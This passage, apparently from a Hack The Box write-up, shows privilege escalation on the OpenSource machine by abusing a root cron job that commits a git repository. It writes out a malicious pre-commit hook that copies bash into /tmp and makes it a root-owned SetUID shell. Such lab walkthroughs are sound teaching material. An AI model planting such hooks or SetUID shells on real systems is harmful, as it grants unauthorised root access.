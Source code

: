     if ! git status --porcelain; then
        echo "No changes"
    else
        day=$(date +'%Y-%m-%d')
        echo "Changes detected, pushing.."
        git add .
        git commit -m "Backup for ${day}"
        git push origin main
    fi
    

### Abuse Git Hooks

[Git hooks](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks) are
scripts that are run on various events in a git repository. I’ve looked at Git
hooks before as an unintended path on [Bitlab](/2020/01/11/htb-
bitlab.html#unintended-path-from-www-data-to-root).

Any Git repo has a `.git` directory that contains all the version control
data. One of the folders in that directory is `hooks`:

    
    
    dev01@opensource:~/.git$ ls
    branches  COMMIT_EDITMSG  config  description  FETCH_HEAD  HEAD  hooks  index  info  logs  objects  refs
    

By default, it has a bunch of `.sample` files:

    
    
    dev01@opensource:~/.git/hooks$ ls
    applypatch-msg.sample  fsmonitor-watchman.sample  pre-applypatch.sample  prepare-commit-msg.sample  pre-rebase.sample   update.sample
    commit-msg.sample      post-update.sample         pre-commit.sample      pre-push.sample            pre-receive.sample
    

Hooks will skip over any file ending in `.sample`. Other than that, they can
be whatever kind of script I want them to be.

I’ll write a short script that copies `bash` into `/tmp/0xdf`, makes sure it’s
owned by root, and then sets it to SetUID so it runs as root:

    
    
    dev01@opensource:~/.git/hooks$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf'
    #!/bin/bash
    
    cp /bin/bash /tmp/0xdf
    chown root:root /tmp/0xdf
    chmod 4777 /tmp/0xdf
    dev01@opensource:~/.git/hooks$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
    dev01@opensource:~/.git/hooks$ chmod +x pre-commit
    

I save this as `pre-commit`, so the next time someone tries to commit, it will
run. I’ll also need to set that file as executable.
